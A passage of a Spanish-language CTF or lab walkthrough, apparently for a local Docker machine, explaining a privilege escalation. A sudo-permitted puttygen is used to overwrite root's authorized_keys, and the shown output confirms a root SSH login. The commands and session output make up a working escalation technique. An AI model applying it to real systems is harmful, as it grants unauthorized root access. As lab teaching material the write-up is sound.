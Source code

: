 Aquí se está utilizando `puttygen` como root para escribir la clave pública **en el home del usuario root**, autorizando nuestra clave privada para conectarnos sin contraseña.

> Si el directorio `/root/.ssh` no existiera, también podrías crearlo (si tuvieras otros binarios habilitados en `sudo -l`, pero en este caso `puttygen` basta ya que escribe directamente).

### Comando utilizado

|Comando completo|Significado|
|---|---|
|`sudo`|Ejecuta el comando como root (permitido por `sudo -l`)|
|`/usr/bin/puttygen`|Ruta completa del binario autorizado en `sudoers`|
|`authorized_keys`|Archivo de entrada (en este caso, contiene nuestra clave pública en cualquier formato válido para puttygen)|
|`-O public-openssh`|Especifica el formato de salida: clave pública compatible con OpenSSH|
|`-o /root/.ssh/authorized_keys`|Archivo de salida. Estamos sobrescribiendo directamente el archivo de claves autorizadas del usuario root|

### ¿Qué está pasando exactamente?

1. **`puttygen` toma el contenido del archivo `authorized_keys` local** (que nosotros llenamos previamente con nuestra propia clave pública).
2. Lo convierte al **formato OpenSSH público**, necesario para funcionar  SSH (`sshd`).
3. Lo **escribe directamente en `/root/.ssh/authorized_keys`**, que es el archivo que SSH usa para validar si alguien tiene permitido autenticarse como `root` por clave pública.
4. Como el comando se ejecuta con `sudo`, se **escribe como root**, lo que normalmente no podríamos hacer desde un usuario sin privilegios.

### Comprobación

Después de ejecutar ese comando exitosamente, puedes hacer:


```bash
ssh -i my_root_key root@localhost`
```

Y tendrás acceso como `root` sin ingresar ninguna contraseña, gracias a que tu clave fue aceptada en `authorized_keys`.


```bash
curiosito@c63ee014a69b:~$ ssh -i my_root_key root@localhost
The authenticity of host 'localhost (::1)' can't be established.
ED25519 key fingerprint is SHA256:uxPuaJueTWTbzOOOgHR9jKEuKfQzpWt1rU8JihuRr4o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Linux c63ee014a69b 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@c63ee014a69b:~# whoami
root
```
